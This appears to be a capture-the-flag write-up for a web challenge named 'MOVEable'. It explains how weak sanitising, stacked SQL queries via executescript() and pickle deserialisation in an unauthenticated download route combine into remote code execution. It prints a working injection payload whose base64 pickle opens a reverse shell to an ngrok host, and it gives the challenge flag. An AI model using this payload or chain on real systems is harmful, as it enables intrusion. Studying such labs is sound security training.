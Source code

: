 # MOVEable

Challenge Description: 
```
Ever wanted to move your files? You know, like with a fancy web based GUI instead of just FTP or something?

Well now you can, with our super secure app, MOVEable!

Escalate your privileges and find the flag.
```

Based on the challenge title and description, this challenge may involve the [MOVEit vulnerability](https://unit42.paloaltonetworks.com/threat-brief-moveit-cve-2023-34362/) that allows unauthenticated users to gain access through SQL and RCE.

Looking at the source code attached in the challenge, we can observed multiple possible entry points.

First, the ```login_user()``` function sanitizes the parameters by replacing known 'bad characters' through the ```DBClean()``` function:
![alt text](image.png)

Next, the sql query is actually run using ```executescript()``` instead of an ```execute()``` function. 
![alt text](image-1.png)

The difference between the two is that ```execute()``` returns a value if the qeury finds a record, while ```executescript()``` does not but allows to execute multiple sql queries. This indicates that we don't necessarily need to login to the web app.

Furthermore, multiple functions in the source code also include the ```@login_required``, except for the ```download_file()``` function:
![alt text](image-2.png)

Looking further into this function, we can see a pickle loads function which reads the file if its found in the db that indicates a possible deserialization attack through the use of a file.
![alt text](image-3.png)

Based on the gathered information, we need to first inject a file into the db, then take advantage of the deserialization attack to execute our RCE payload.

To actually execute the RCE through the ```/download/<filename>/sessionid``` route, an active session record must be injected as well into the db.

After some trial and error, this payload was successfully executed and managed to create a reverse shell from the instance. Due to the input sanitation, whitespaces were replaced with tab (```\t```) characters and ' were replaced with \ characters.

```
asdf\;    INSERT    INTO    activesessions    (sessionid,username,timestamp)    VALUES    (\123123\,\admin\,NULL);    INSERT    INTO    files    VALUES    (\test\,\gASVtAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjJlweXRob24zIC1jICdpbXBvcnQgb3MscHR5LHNvY2tldDtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKCIwLnRjcC5hcC5uZ3Jvay5pbyIsMTk3NzApKTtbb3MuZHVwMihzLmZpbGVubygpLGYpZm9yIGYgaW4oMCwxLDIpXTtwdHkuc3Bhd24oIi9iaW4vYmFzaCIpJyCUhZRSlC4=\,    \123123\);--
```

Once injected, execute the payload by typing in the route ```download/test/123123``` to obtain a reverse shell and the flag.

![alt text](image-4.png)

![alt text](image-5.png)

FLAG: ```flag{ac53cd7aa8a2d1b2340a6eb4a356709e}```